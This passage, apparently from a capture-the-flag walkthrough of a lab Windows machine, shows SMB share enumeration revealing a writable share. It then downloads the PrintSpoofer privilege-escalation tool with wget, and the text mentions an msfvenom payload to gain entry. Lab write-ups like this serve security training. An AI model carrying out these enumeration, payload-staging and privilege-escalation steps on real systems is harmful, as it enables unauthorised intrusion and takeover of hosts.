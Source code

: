 ```bash
	fr--r--r--                3 Sun Dec 31 23:58:45 1600	Ctx_WinStation_API_service
	fr--r--r--                4 Sun Dec 31 23:58:45 1600	wkssvc
	fr--r--r--                3 Sun Dec 31 23:58:45 1600	atsvc
	fr--r--r--                3 Sun Dec 31 23:58:45 1600	SessEnvPublicRpc
	fr--r--r--                1 Sun Dec 31 23:58:45 1600	Winsock2\CatalogChangeListener-348-0
	fr--r--r--                3 Sun Dec 31 23:58:45 1600	trkwks
	fr--r--r--                3 Sun Dec 31 23:58:45 1600	spoolss
	fr--r--r--                1 Sun Dec 31 23:58:45 1600	Winsock2\CatalogChangeListener-5d4-0
	fr--r--r--                3 Sun Dec 31 23:58:45 1600	W32TIME_ALT
	fr--r--r--                4 Sun Dec 31 23:58:45 1600	srvsvc
	fr--r--r--                1 Sun Dec 31 23:58:45 1600	Winsock2\CatalogChangeListener-220-0
	fr--r--r--                1 Sun Dec 31 23:58:45 1600	Winsock2\CatalogChangeListener-230-0
	fr--r--r--                1 Sun Dec 31 23:58:45 1600	PIPE_EVENTROOT\CIMV2SCM EVENT PROVIDER
	fr--r--r--                1 Sun Dec 31 23:58:45 1600	iisipm1bb87675-3872-4e14-ace3-a3a9a64df090
	fr--r--r--                1 Sun Dec 31 23:58:45 1600	Z7kP6yV1CB49BNpFATtkb0JNHt8EIhJcftQW4bUgxUWV7uzwlFLumWnafF8FGYv2Jgis4qQuy69zFTNgicBCHKcm7Il6UGvYoiXY3shmOZH7mxdEFuwsWI
	fr--r--r--                1 Sun Dec 31 23:58:45 1600	CPFATP_3972_v4.0.30319
	fr--r--r--                1 Sun Dec 31 23:58:45 1600	iisipmdb87032d-d651-43b1-a774-744338ee4267
	fr--r--r--                1 Sun Dec 31 23:58:45 1600	Q3ZT4IIE0dmoiXMlzW8AnvZA2f3oKEBFz9QCFQl6PRQcbVYg5MJc9g5xXAahyNtONmcgyx15xTA8uax3JCbcEBzkEjqkJA1HfBIeJXMMQOWg99EM89pMKA
	fr--r--r--                1 Sun Dec 31 23:58:45 1600	CPFATP_2288_v4.0.30319
	IPC$                                              	READ ONLY	Remote IPC
	nt4wrksv                                          	READ, WRITE	
root@ip-10-10-99-136:~# 
```

Let's have the relevant exploits ready.

The first one obtained from the GitHub repo is needed for privilege escalation once we are in. The second one, prepared with `msfvenom` opens the door.

```bash
root@ip-10-10-99-136:~# wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
--2025-05-29 19:30:30--  https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
Resolving github.com (github.com)... 4.208.26.197
Connecting to github.com (github.com)|4.208.26.197|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://objects.githubusercontent.com/github-production-release-asset-2e65be/259576481/816ce080-f39e-11ea-8fc2-8afb7b4f4821?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=releaseassetproduction%2F20250529%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20250529T183030Z&X-Amz-Expires=300&X-Amz-Signature=4707ec4ccbaf15050135e1f8b23c3983cbf8a1d7ef9a1ae4572ce0eb20dda1d2&X-Amz-SignedHeaders=host&response-content-disposition=attachment%3B%20filename%3DPrintSpoofer64.exe&response-content-type=application%2Foctet-stream [following]
--2025-05-29 19:30:30--  https://objects.githubusercontent.com/github-production-release-asset-2e65be/259576481/816ce080-f39e-11ea-8fc2-8afb7b4f4821?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=releaseassetproduction%2F20250529%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20250529T183030Z&X-Amz-Expires=300&X-Amz-Signature=4707ec4ccbaf15050135e1f8b23c3983cbf8a1d7ef9a1ae4572ce0eb20dda1d2&X-Amz-SignedHeaders=host&response-content-disposition=attachment%3B%20filename%3DPrintSpoofer64.exe&response-content-type=application%2Foctet-stream
Resolving objects.githubusercontent.com (objects.githubusercontent.com)... 185.199.111.133, 185.199.108.133, 185.199.109.133, ...
Connecting to objects.githubusercontent.com (objects.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 27136 (26K) [application/octet-stream]
Saving to: \u2018PrintSpoofer64.exe\u2019

PrintSpoofer64.exe        100%[=====================================>]  26.50K  --.-KB/s    in 0.001s  

```